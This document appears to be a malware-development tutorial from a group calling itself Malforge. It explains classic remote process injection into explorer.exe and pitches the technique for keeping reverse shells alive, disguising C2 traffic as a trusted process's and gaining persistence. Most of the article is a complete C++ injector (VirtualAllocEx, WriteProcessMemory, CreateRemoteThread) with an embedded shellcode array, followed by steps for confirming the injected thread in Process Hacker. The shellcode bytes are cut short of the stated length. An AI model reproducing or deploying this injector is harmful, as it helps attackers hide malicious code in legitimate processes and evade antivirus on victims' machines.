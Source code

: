 # Process Code Injection

## Introduction

Welcome to this article. Today, I will demonstrate how to inject a process into another running process on the same machine. For this example, we will inject into the `explorer.exe` process. I hope you find this tutorial informative.

### Why Use Process Code Injection?

- **Extended Lifespan of Payloads:** When using a basic reverse shell, the connection only stays alive while the original executable is running. If the user closes the program, the shell dies. However, by injecting your reverse shell into a legitimate process like explorer.exe, the payload keeps running—even after the original executable is closed—since the injected code now lives inside a different, trusted process.

- **Blending with Legitimate Activity:** If your malware connects directly to a C2 server, it’s easy for antivirus software to flag it as suspicious—especially if the connection comes from an unknown or unsigned executable. Process injection allows you to move your operations into a trusted process like chrome.exe or any web browser, making your network traffic appear more legitimate and harder to detect.

- **Achieving Persistence:** You can enhance persistence by injecting your code into multiple remote processes. Even if one process is terminated, your malicious payload can continue to operate from other injected processes, increasing the resilience of your malware.


![image](https://github.com/user-attachments/assets/4b1f3922-efcc-407c-9f7d-65bbff258601)

## Code :

Today’s focus is on a basic injection technique—more advanced and complex methods will be covered in future content.

```C++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>

unsigned char payload[] = {
  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x00, 0x00,
  0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0x0f, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02,
  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52,
  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
};
unsigned int payload_len = 334;

int FindPID(const char *procname) {

        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;
                
        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;
                
        pe32.dwSize = sizeof(PROCESSENTRY32); 
                
        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        }
                
        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        break;
                }
        }
                
        CloseHandle(hProcSnap);
                
        return pid;
}


int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
        LPVOID pRemoteCode = NULL;
        HANDLE hThread = NULL;

        pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
        WriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
        
        hThread = CreateRemoteThread(hProc, NULL, 0, pRemoteCode, NULL, 0, NULL);
        if (hThread != NULL) {
                WaitForSingleObject(hThread, 500);
                CloseHandle(hThread);
                return 0;
        }
        return -1;
}


int main(void) {
    
 int pid = 0;
    HANDLE hProc = NULL;

 pid = FindPID("explorer.exe");

 if (pid) {
  printf("Explorer.exe PID = %d\n", pid);

  // try to open target process
  hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
      PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
      FALSE, (DWORD) pid);

  if (hProc != NULL) {
   Inject(hProc, payload, payload_len);
   CloseHandle(hProc);
  }
 }
 return 0;
}
```

The code consists of three primary functions, each with a specific role:

- **FindPID:** This function basically receives the name of one process, and return the PID (Process ID) from this process, to do this use `CreateToolhelp32Snapshot` to see all the current processes, and with `Process32First` and `Process32Next`, captures the PID from the previous and next processes executed in victim machine.

- **Inject:** This function inject your shellcode to one process, to do this is very simple uses 3 other functions :\
  1. `VirtualAllocEx`, here is creating little memory space in remote process to after inject code.\
  2. `WriteProcessMemory` with this it’s moving the malicious shellcode to provious memory space created with `VirtualAllocEx`.\
  3. The last one is `CreateRemoteThread` this is to execute the memory location with your malicious code inside.

- **Main:** This function basically are executing the last 2, and controlling errors from other 2 functions.


## POC : 

Now let's execute the code : 

![image](https://github.com/user-attachments/assets/ed01f018-bf77-4c57-82e2-787de92ba1a8)

The popped screen **RTO: MalDev** displays my shellcode, and it’s working well. However, it only functions if `explorer.exe` is open; otherwise, it doesn’t work. Now, it's time to check if the shellcode has truly been injected into the `explorer.exe` process.

To verify this, I use the Process Hacker. You can download it from the following link :

> Download - Process Hacker\
Process Hacker, A free, powerful, multi-purpose tool that helps you monitor system resources, debug software and detect. [here](https://systeminformer.sourceforge.io/downloads)

Let’s go to **explorer** threads.

![image](https://github.com/user-attachments/assets/f6d1a4f3-e444-4a83-a8b5-7ad4c3d0b37c)

Both processes have a PID of 756. Now, go to the Threads section where you should see your malicious thread. To identify it, right-click on `explorer.exe` → select Threads, and then search for `ntdll.dll!RtlUserThreadStart`.

`UserThreatStart` is the key string you need to look for in order to identify your malicious thread.

![image](https://github.com/user-attachments/assets/b8fc0b05-667f-49bd-a9aa-d1dc8b822965)

![image](https://github.com/user-attachments/assets/c78538c9-19da-47a4-8e65-d413de62e4c6)

In the malicious thread stack, you should see MessageBox, which corresponds to a Windows MessageBox. This is what it looks like:

![image](https://github.com/user-attachments/assets/3b319658-a949-4f90-b27d-cbbacbd5c987)


## Conclusions

This article has covered one of the simplest forms of code injection into a remote process. While this technique serves as a foundation, more advanced methods will be explored in future content.

Thanks for reading! ;)

**-Malforge Group.**
